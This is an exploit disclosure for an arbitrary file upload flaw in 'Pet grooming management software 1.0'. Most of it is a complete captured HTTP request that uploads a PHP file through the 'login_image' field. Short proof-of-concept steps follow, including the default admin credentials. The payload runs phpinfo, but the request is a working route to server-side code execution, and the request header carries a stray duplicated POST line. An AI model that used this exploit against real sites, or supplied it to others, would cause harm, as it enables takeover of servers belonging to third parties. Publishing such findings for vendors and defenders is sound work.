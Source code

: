 

# Pet grooming management software  - 'login_image' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'manage_website.php' file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/manage_website.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="deduct"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="title"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="currency_symbol"

₹
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_login_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="login_image"; filename="111.php"
Content-Type: text/plain

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="term"

<h4>1. <strong>Appointments &amp; Timings</strong></h4><p>Clients must arrive on time for scheduled appointments.</p><p>A delay of more than 15 minutes may result in rescheduling.</p><p>Walk-ins are accepted based on availability.</p><h4>2<strong>. Health &amp; Vaccinations</strong></h4><p>Pets must be up to date with vaccinations (especially Rabies).</p><p>We reserve the right to refuse service if a pet shows signs of illness, infection, or aggressive behavior.</p><p>The client must inform us of any medical conditions, allergies, or behavioral issues.</p><h4>3. <strong>Grooming Safety</strong></h4><p>We use safe, pet-friendly grooming products and tools.</p><p>In case of extreme matting, hair may need to be shaved to avoid injury.</p><p>We are not liable for any pre-existing conditions or issues arising from matting, skin problems, or aggressive behavior.</p><h4>4. <strong>Emergency Care</strong></h4><p>In the event of an injury or health concern during grooming, we will attempt to contact the owner immediately.</p><p>If needed, the pet may be taken to the nearest veterinary clinic at the owner's expense.</p><h4>5. <strong>Cancellations &amp; No-Shows</strong></h4><p>Please provide at least 24 hours’ notice for cancellations.</p><p>No-shows or last-minute cancellations may incur a fee.</p><h4>6. <strong>Photographs</strong></h4><p>We may take photos of pets after grooming for promotional use on our website or social media unless the client requests otherwise.</p><h4>7. <strong>Payment Terms</strong></h4><p>Full payment is required upon completion of grooming.</p><p>Prices may vary depending on breed, size, coat condition, and service duration.</p>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_sign"

images (1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--

```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Upload the file and capture the package.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/page2.png)

3、Modify the login_image to the PHP malicious file we are about to upload

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayload-website.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadfile2.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpage2.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-loginimage.png)
